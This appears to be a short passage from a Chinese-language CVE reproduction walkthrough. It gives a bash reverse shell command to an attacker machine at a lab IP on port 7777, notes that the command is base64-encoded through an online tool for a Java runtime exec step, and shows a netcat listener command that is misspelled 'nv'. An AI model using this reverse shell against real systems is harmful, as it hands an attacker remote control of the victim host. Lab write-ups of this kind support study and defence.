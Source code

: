 ![image-20241127234201467](CVE漏洞复现/image-20241127234201467.png)	

```
bash -i >& /dev/tcp/192.168.15.128/7777 0>&1
打开该网站，把反弹连接命令转换为base64格式的命令。之所以要编码是因为原本的反弹连接命令包含太多特殊字符了。
https://ares-x.com/tools/runtime-exec/
```

![image-20241127235523346](CVE漏洞复现/image-20241127235523346.png)	

```
kali攻击机监听7777端口。
nv -lvvp 7777
```
